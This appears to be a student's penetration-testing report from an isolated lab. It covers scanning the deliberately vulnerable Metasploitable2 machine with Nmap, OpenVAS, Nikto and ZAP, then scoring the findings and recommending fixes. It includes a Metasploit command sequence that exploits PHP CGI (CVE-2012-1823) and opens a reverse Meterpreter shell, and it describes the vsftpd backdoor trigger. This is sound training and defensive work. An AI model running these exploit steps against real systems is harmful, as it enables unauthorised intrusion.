




# 📋 VAPT Week 1 — Full Penetration Testing Report

> **Classification:** Confidential — Training Environment
> **Report Type:** Vulnerability Assessment & Penetration Testing (VAPT)
> **Standard:** PTES (Penetration Testing Execution Standard)
> **Week:** 1

---

## 1. Executive Summary

This report presents the results of a structured Vulnerability Assessment and Penetration Testing (VAPT) engagement conducted using open-source tools to identify security weaknesses, assess risks, validate exploitability, and provide remediation guidance.

The assessment was performed in an isolated, virtualized lab environment simulating real-world enterprise security testing workflows. Due to hardware limitations — including insufficient RAM and CPU capacity — a distributed virtualization architecture was implemented:

- **Kali Linux VM** — Attacker / analyst workstation
- **Metasploitable2 VM** — Vulnerable target machine
- **Dedicated OpenVAS VM** — Isolated vulnerability scanner
- **Host Machine** — Web UI access for OpenVAS Greenbone Security Assistant

This architecture improved scanning stability and reflects real-world enterprise VAPT practice, where scanning infrastructure is commonly separated from analyst workstations.

### Summary of Findings

| Severity | Count |
|----------|-------|
| 🔴 Critical | 14 |
| 🟠 High | 8 |
| 🟡 Medium | 40 |
| 🟢 Low | 6 |
| **Total** | **68** |

**Key Critical Findings:**
- Unauthenticated Remote Code Execution via PHP CGI (CVE-2012-1823, CVSS 9.8)
- vsftpd 2.3.4 Backdoor — direct root shell (CVE-2011-2523, CVSS 10.0)
- DistCC unauthenticated RCE (CVE-2004-2687, CVSS 9.3)
- MySQL blank root password — full database compromise
- Legacy r-services (rlogin/rexec/rsh) — unauthenticated remote access
- Cross-Site Scripting (25 instances), SQL Injection, Path Traversal (20 instances)

The target system is in a critically vulnerable state and can be fully compromised with minimal effort using publicly available tools. Immediate remediation of all Critical findings is required.

---

## 2. Problem Statement

### Initial Architecture — Challenges

Initially, Greenbone Vulnerability Manager (OpenVAS) was installed directly within Kali Linux. This resulted in significant operational issues:

| Problem | Root Cause |
|---------|-----------|
| Frequent service crashes | Insufficient RAM |
| Feed synchronization failures | CPU throttling |
| High memory utilization | OpenVAS requires 4–8 GB RAM minimum |
| Browser crashes (GSA UI) | Insufficient system resources |
| System freezes during scans | Simultaneous VM + scan load |

### Root Cause

The host machine had:
- Limited RAM (below OpenVAS minimum requirements)
- Older processor architecture with limited parallel processing
- Insufficient resources to simultaneously run Kali Linux, OpenVAS scanning services, and multiple target VMs

---

## 3. Alternative Architecture Implementation

To overcome these constraints, a dedicated OpenVAS scanning VM was deployed.

### Final Lab Architecture

| Machine | Role | IP Address |
|---------|------|-----------|
| Host Machine | Web UI access for OpenVAS | — |
| Kali Linux VM | Reconnaissance & Exploitation | 192.168.56.101 |
| Metasploitable2 VM | Vulnerable Target | 192.168.56.104 |
| OpenVAS VM | Dedicated Vulnerability Scanner | 192.168.56.103 |

### Network Flow

```
Host Machine
│
│ Access Web UI (http://192.168.56.103)
▼
OpenVAS VM (192.168.56.103)
│
│ Vulnerability Scans
▼
Metasploitable VM (192.168.56.104)

Kali Linux VM (192.168.56.101)
│
│ Manual Testing / Exploitation
▼
Metasploitable VM (192.168.56.104)
```

**VirtualBox Network Configuration:** All machines connected via Host-Only Adapter (isolated lab network — 192.168.56.0/24).

---

## 4. Assessment Objectives

| # | Objective |
|---|-----------|
| 1 | Identify vulnerabilities in target systems |
| 2 | Perform vulnerability scanning using multiple tools |
| 3 | Conduct service enumeration and web fingerprinting |
| 4 | Validate exploitability of critical findings |
| 5 | Assess and quantify associated risks (CVSS) |
| 6 | Provide actionable remediation recommendations |

---

## 5. Scope of Assessment

| Target System | Purpose | IP |
|--------------|---------|-----|
| Metasploitable2 VM | Vulnerable Target | 192.168.56.104 |
| Kali Linux | Attacker Machine | 192.168.56.101 |
| OpenVAS VM | Vulnerability Scanner | 192.168.56.103 |
| Host System | Web UI access for OpenVAS | — |

**Out of Scope:** All real-world systems, production networks, internet-facing infrastructure.

---

## 6. Methodology

The assessment followed a structured PTES (Penetration Testing Execution Standard) methodology across 5 phases:

```
Phase 1: Planning
         Define scope, targets, testing boundaries, authorized activities
         ↓
Phase 2: Reconnaissance & Discovery
         Nmap, Nikto, OWASP ZAP, OpenVAS — port scanning, service enumeration,
         web fingerprinting, vulnerability detection
         ↓
Phase 3: Exploitation Validation
         Metasploit — validate exploitability, confirm real-world attack feasibility
         ↓
Phase 4: Risk Assessment
         CVSS v3.1 Calculator, qualitative risk matrix
         ↓
Phase 5: Reporting
         Documentation, risk prioritisation, remediation planning
```

---

## 7. Practical Execution

### 7.1 Reconnaissance Using Nmap

```bash
# Service and version detection
nmap -sV -A 192.168.56.104

# Full port scan
nmap -p- -T4 192.168.56.104

# Save output
nmap -A -sV -sC -O 192.168.56.104 -oN nmap_metasploitable.txt
```

> `[SCREENSHOT: Nmap scan — ports 21–111: FTP vsftpd 2.3.4, SSH, Telnet, HTTP Apache 2.2.8, RPC services]`


> `[SCREENSHOT: Nmap scan — ports 139–8180: Samba 3.0.20, MySQL 5.0.51a, VNC, UnrealIRCd, Tomcat + OS detection]`


> `[SCREENSHOT: Nmap scan completion — SMB host script results, traceroute, scan summary]`


**Key Services Discovered:**

| Port | Service | Version |
|------|---------|---------|
| 21 | FTP | vsftpd 2.3.4 |
| 22 | SSH | OpenSSH 4.7p1 |
| 23 | Telnet | Linux telnetd |
| 80 | HTTP | Apache 2.2.8 + PHP 5.2.4 |
| 3306 | MySQL | 5.0.51a |
| 3632 | distccd | GNU 4.2.4 |
| 445 | SMB | Samba 3.0.20 |
| 5900 | VNC | Protocol 3.3 |
| 1524 | Bindshell | Root backdoor |
| 512–514 | rexec/rsh | netkit (no auth) |

The scan revealed multiple outdated, end-of-life services including vsftpd 2.3.4 and Apache 2.2.8, indicating a high-risk attack surface.

---

### 7.2 Vulnerability Scanning Using OpenVAS VM

**Process Followed:**
1. Boot OpenVAS VM
2. Login to scanner terminal — verify services
3. Access Greenbone Security Assistant: `http://192.168.56.103`
4. Configure target: New Target → `192.168.56.104`
5. Launch scan: New Task → Full and Fast → Start
6. Export findings: Reports → Download

> `[SCREENSHOT: OpenVAS Greenbone Security Assistant dashboard + Metasploitable scan task]`



> `[SCREENSHOT: OpenVAS results per host — Critical/High port threat level table]`


**Scan Results:**

| Severity | Count |
|----------|-------|
| Critical | 14 |
| High | 8 |
| Medium | 40 |
| Low | 6 |

---

### 7.3 Web Server Testing Using Nikto

```bash
nikto -h http://192.168.56.104
```

> `[SCREENSHOT: Nikto v2.6.0 web server scan against Apache 2.2.8 (port 80) — full terminal output]`


**Key Findings:**
- Outdated Apache 2.2.8 (End of Life)
- Outdated PHP 5.2.4 (End of Life)
- Missing security headers (CSP, HSTS, X-Content-Type-Options)
- Directory indexing enabled (`/icons/`, `/doc/`, `/test/`)
- HTTP TRACE method enabled (XST attack vector)
- phpMyAdmin exposed without access control
- phpinfo() page publicly accessible

---

### 7.4 Web Application Testing Using OWASP ZAP

**Activities:**
1. Spider scan — full crawl of all linked pages
2. Active scan — injected test payloads
3. Vulnerability detection and classification

> `[SCREENSHOT: OWASP ZAP 2.17.0 automated scan setup targeting Mutillidae]`


> `[SCREENSHOT: ZAP spider + active scan with full alert list — XSS, SQLi, RCE, Path Traversal]`



> `[SCREENSHOT: ZAP RCE finding detail — CVE-2012-1823 PHP CGI confirmed in Mutillidae]`



**Vulnerabilities Found:**
- **Cross-Site Scripting** — 25 instances across DVWA and Mutillidae
- **SQL Injection** — MySQL and SQLite injection points
- **Path Traversal** — 20 instances
- **Remote Code Execution** — CVE-2012-1823 (PHP CGI)
- **Command Injection** — Multiple endpoints

> 📄 **Full ZAP findings exported as PDF:** [`2026-04-30-ZAP-Report-.pdf`](2026-04-30-ZAP-Report-.pdf) — contains the complete machine-generated report of all alerts detected during the automated scan, including request/response evidence and CWE references for each finding.

---

### 7.5 Exploitation Validation Using Metasploit

The PHP CGI vulnerability (CVE-2012-1823) was validated using Metasploit. The server successfully executed injected PHP commands, confirming full exploitability.

```bash
msfconsole
msf6 > search php cgi
msf6 > use exploit/multi/http/php_cgi_arg_injection
msf6 > set RHOST 192.168.56.104
msf6 > set RPORT 80
msf6 > set targeturi /mutillidae/
msf6 > set payload php/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.56.101
msf6 > set LPORT 4444
msf6 > run
```

> `[SCREENSHOT: Metasploit PHP CGI exploit (CVE-2012-1823) — Meterpreter session opened, sysinfo output]`



**Result:** Active Meterpreter session opened as `www-data`. Remote code execution confirmed.

---

## 8. Risk Assessment

Risk assessment performed using CVSS v3.1 scoring and a qualitative risk matrix.

### CVSS Scoring — PHP CGI (CVE-2012-1823)

CVSS Base Score: **9.8 (Critical)**

| Metric | Value | Reason |
|--------|-------|--------|
| Attack Vector | Network | Exploitable remotely over the internet |
| Attack Complexity | Low | No special conditions required |
| Privileges Required | None | No authentication needed |
| User Interaction | None | No victim interaction required |
| Confidentiality Impact | High | Full system access |
| Integrity Impact | High | Files can be modified/deleted |
| Availability Impact | High | Service can be disrupted |

### Risk Matrix

| Vulnerability | Likelihood | Impact | Risk Level |
|---------------|------------|--------|-----------|
| PHP CGI RCE (CVE-2012-1823) | High | High | **Critical** |
| DistCC RCE (CVE-2004-2687) | High | High | **Critical** |
| vsftpd Backdoor (CVE-2011-2523) | High | High | **Critical** |
| MySQL Default Credentials | High | High | **Critical** |
| rlogin/rexec (No Auth) | High | High | **Critical** |
| SQL Injection | High | High | **High** |
| XSS (25 instances) | High | Medium | **High** |
| Path Traversal (20 instances) | Medium | High | **High** |

---

## 9. Key Findings

### V-01: PHP CGI Argument Injection (CVE-2012-1823)

| Field | Value |
|-------|-------|
| CVE | CVE-2012-1823 |
| CVSS | 9.8 — Critical |
| Service | Apache/PHP CGI (Port 80) |
| Impact | Unauthenticated Remote Code Execution |
| Evidence | Meterpreter session established as www-data |

**Description:** PHP, when configured as a CGI handler, allows argument injection via query string parameters. An attacker can pass command-line arguments to the PHP binary, bypassing filtering and executing arbitrary PHP code.

**Remediation:** Update PHP to 5.4.4+ or 5.3.24+. If CGI is required, restrict access to `php-cgi` via web server configuration.

---

### V-02: DistCC RCE (CVE-2004-2687)

| Field | Value |
|-------|-------|
| CVE | CVE-2004-2687 |
| CVSS | 9.3 — Critical |
| Service | distccd (Port 3632) |
| Impact | Unauthenticated Remote Command Execution |

**Description:** DistCC allows distributed compilation tasks without authentication. An attacker can submit a malicious compilation job to execute arbitrary commands on the server.

**Remediation:** Disable distccd if not required. If required, restrict access using firewall rules to trusted IP ranges only.

---

### V-03: vsftpd 2.3.4 Backdoor (CVE-2011-2523)

| Field | Value |
|-------|-------|
| CVE | CVE-2011-2523 |
| CVSS | 10.0 — Critical |
| Service | vsftpd FTP (Port 21) |
| Impact | Unauthenticated Root Shell |

**Description:** vsftpd 2.3.4 contains a deliberately introduced backdoor. Sending a username ending with `:)` opens a root shell listener on port 6200.

**Remediation:** Upgrade vsftpd immediately. Audit all FTP service configurations. Consider replacing FTP with SFTP.

---

### V-04: MySQL Blank Root Password

| Field | Value |
|-------|-------|
| CVE | — |
| CVSS | 8.5 — Critical |
| Service | MySQL (Port 3306) |
| Impact | Full database compromise, credential access |

**Description:** MySQL root account accessible with no password. All databases — including application credentials — are fully accessible.

**Remediation:** Set a strong root password immediately. Restrict MySQL to localhost only. Implement role-based DB user accounts.

---

### V-05: rlogin / rexec / rsh Services

| Field | Value |
|-------|-------|
| CVE | — |
| CVSS | 9.0 — Critical |
| Service | netkit (Ports 512–514) |
| Impact | Unauthenticated Remote Shell |

**Description:** Legacy r-services provide remote access without encryption and with minimal trust-based authentication. Connections from "trusted" hosts are accepted without passwords.

**Remediation:** Disable all r-services immediately. Replace with SSH for any legitimate remote access requirements.

---

### V-06: SQL Injection

| Field | Value |
|-------|-------|
| CVE | — |
| CVSS | 8.8 — High |
| Service | Web Application (Port 80) |
| Impact | Database extraction, authentication bypass |

**Description:** Multiple SQL injection points identified across DVWA and Mutillidae. Both MySQL and SQLite injection confirmed via OWASP ZAP active scan.

**Remediation:** Use parameterised queries (prepared statements) for all database interactions. Implement input validation and output encoding.

---

### V-07: Cross-Site Scripting (XSS)

| Field | Value |
|-------|-------|
| CVE | — |
| CVSS | 7.4 — High |
| Service | Web Application (Port 80) |
| Count | 25 instances |
| Impact | Session hijacking, credential theft, phishing |

**Description:** 25 XSS instances identified across multiple pages. Reflected and stored XSS both present. Allows script injection into victim browsers.

**Remediation:** Sanitise all user input. Implement Content Security Policy (CSP) headers. Use HTTPOnly and Secure cookie flags.

---

## 10. Remediation Recommendations

### Infrastructure

| Action | Priority |
|--------|----------|
| Upgrade vsftpd — remove backdoored version | Critical — Immediate |
| Disable distccd or firewall to trusted IPs only | Critical — Immediate |
| Set MySQL root password, restrict to localhost | Critical — Immediate |
| Disable rlogin/rexec/rsh services | Critical — Immediate |
| Patch PHP to 5.4.4+ (or upgrade to 8.x) | Critical — Immediate |
| Upgrade Apache from 2.2.8 to 2.4.x | High — Within 7 days |
| Disable Telnet, replace with SSH | High — Within 7 days |

### Web Security

| Action | Priority |
|--------|----------|
| Implement parameterised queries for all DB calls | Critical |
| Add CSP, HSTS, X-Content-Type-Options headers | High |
| Sanitise all user input; encode all output | High |
| Restrict phpMyAdmin to localhost or VPN | High |
| Remove phpinfo.php from production | Medium |
| Disable directory indexing | Medium |
| Disable HTTP TRACE method | Medium |

### Monitoring

| Action | Priority |
|--------|----------|
| Implement continuous vulnerability scanning | High |
| Centralise logging (SIEM integration) | High |
| Schedule regular security audits | Medium |
| Monitor for unusual network connections | High |

---

## 11. Challenges Faced During Assessment

### OpenVAS Resource Constraints

Running OpenVAS inside Kali caused:
- High memory utilization (8+ GB RAM required)
- Scan crashes mid-execution
- Feed synchronization delays and failures
- Service failures requiring manual restarts

### Resolution

A dedicated OpenVAS VM architecture was adopted. This approach:
- Eliminated resource contention between Kali tools and the scanner
- Improved scan stability and completion rates
- Reflects real-world enterprise deployment models where scanning infrastructure is isolated from analyst workstations

---

## 12. Conclusion

This assessment successfully demonstrated how open-source security tools (Nmap, OpenVAS, Nikto, OWASP ZAP, Metasploit) can be used to perform end-to-end vulnerability assessment and penetration testing in a controlled lab environment.

The deployment of a dedicated OpenVAS scanning VM improved operational efficiency and allowed successful completion of all scan objectives despite hardware limitations.

The assessment revealed that the Metasploitable2 target is critically vulnerable across multiple attack surfaces — network services, legacy protocols, web applications, and database configuration. Multiple critical vulnerabilities were confirmed exploitable with publicly available tools, requiring zero authentication and minimal skill.

**Key takeaways:**
1. Distributed scanning architecture improves VAPT operational efficiency
2. Unpatched, end-of-life software presents the greatest risk
3. Defence-in-depth (firewalls, patching, monitoring) is essential
4. Continuous vulnerability scanning is required to maintain security posture

---
*All testing performed in a controlled, isolated lab environment on intentionally vulnerable machines for educational purposes only.*

---
